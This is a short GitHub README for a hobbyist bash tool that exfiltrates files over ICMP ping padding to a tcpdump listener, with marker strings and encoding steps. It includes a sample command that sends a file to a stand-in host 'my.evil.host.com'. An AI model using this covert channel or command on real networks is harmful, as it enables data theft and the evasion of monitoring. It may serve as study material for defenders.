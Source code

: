 # ping-exfil.sh
Just testing exfiltration through ping packets with bash. By no means anything complete, nor pretty nor expert level. Just some beginner's testing in bash.

This test set was running on a private VM (sender) and AWS EC2 (receiver)

Not safe at all, as you need access to ping on the sending side and tcpdump on the receiving end, running things as sudo etc.


########<br/>
#MANUAL#<br/>
########<br/>
##RECEIVER##<br/>
#1: create the cronfile on your AWS or whatever you're running the receiver on<br/>
#2: start rolling the cron<br/>
#3: cron launches beefpoller.sh which will poll for new packets. Packets of interest are recognized when containing the padding data:
#   "beef15f00d1100FF"
#4: polling stops when the padding data contains:
#   "dead beef"
##SENDER##<br/>
#1: pinger.sh takes two arguments; first one being the file to exfiltrate and the second one is the host to exfiltrate data to:
#   ./pinger.sh topkek.txt my.evil.host.com
#2: converts the data to base64, then to binary and is then pushed to 16bit array, then sends the init packet containing the "beef15f00d1100FF", then the data 16bits at a time and finally the end of transmit packet containing "dead beef"
<br/><br/>
##Most likely an awful way of doing things, slow\(\*\) as \*insertbadword\* and amateurish. I take no resposibility nor give any warranties.<br/>
##Comments are always welcome.<br/>
(*) Would be faster to send the data out in hex, but just as a really minor obfuscation it's first encoded to b64 and then converted to bin
